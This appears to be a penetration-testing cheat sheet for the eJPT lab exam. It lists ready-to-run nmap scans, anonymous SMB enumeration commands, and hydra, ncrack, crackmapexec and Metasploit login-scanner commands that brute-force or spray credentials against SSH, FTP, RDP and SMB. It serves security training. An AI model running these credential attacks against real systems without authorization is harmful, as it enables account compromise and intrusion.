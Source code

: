 1) Scan and identify host services
```bash
# Common host services in scope for eJPT
nmap -Pn -sC -sV -p 21,22,80,135,139,445,3389,5985 -oN nmap/$TARGET.txt $TARGET

# If you want a fuller top-ports sweep
nmap -Pn -sC -sV --top-ports 1000 -oN nmap/${TARGET}_top1000.txt $TARGET
```

2) SMB enumeration (Windows targets)
```bash
# List shares anonymously
smbclient -L //$TARGET -N

# Enumerate users/shares/policies
enum4linux -a $TARGET | tee loot/${TARGET}_enum4linux.txt

# Quick SMB share perms map (try anonymous and guessed creds)
smbmap -H $TARGET -u '' -p '' | tee loot/${TARGET}_smbmap_anon.txt
smbmap -H $TARGET -u guest -p '' | tee -a loot/${TARGET}_smbmap_guest.txt

# Connect to a found share
smbclient //$TARGET/share -N
```

3) Credential attacks (be mindful of lockout policies)
```bash
# SSH brute (slow and careful)
hydra -L users.txt -P passwords.txt -t 4 -f ssh://$TARGET

# FTP brute (if ftp open)
hydra -L users.txt -P passwords.txt -t 4 -f ftp://$TARGET

# RDP brute (Ncrack tends to be more reliable for RDP)
ncrack -vv -U users.txt -P passwords.txt rdp://$TARGET

# SMB spraying (if allowed in lab; great for quick wins)
crackmapexec smb $TARGET -u users.txt -p passwords.txt --continue-on-success | tee loot/${TARGET}_cme_spray.txt
```

Metasploit login scanners (alternative):
```text
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS $TARGET
set USER_FILE users.txt
set PASS_FILE passwords.txt
set STOP_ON_SUCCESS true
run

use auxiliary/scanner/smb/smb_login
set RHOSTS $TARGET
set SMBUser Administrator
set PASS_FILE passwords.txt
run
```
